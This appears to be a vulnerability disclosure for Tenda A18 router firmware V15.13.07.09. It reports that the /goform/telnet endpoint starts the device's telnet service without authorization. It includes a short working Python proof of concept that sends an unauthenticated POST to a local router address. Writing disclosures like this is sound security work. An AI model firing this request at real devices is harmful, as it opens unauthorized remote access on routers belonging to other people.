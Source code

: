# Tenda A18 V15.13.07.09 Unauthorized opening of tenlet service

## Firmware information

- Manufacturer's address: https://www.tenda.com.cn/

- Firmware download address: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/A18/formWifiBasicSet/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/A18/TendaTelnet/img/2.png)


In /goform/telnet, the tenlet service can be started without authorization

## Poc

```python
import requests

url = "http://192.168.10.104/goform/telnet"

r = requests.post(url)

print(r.content)
```

You can see that the tenlet service is enabled
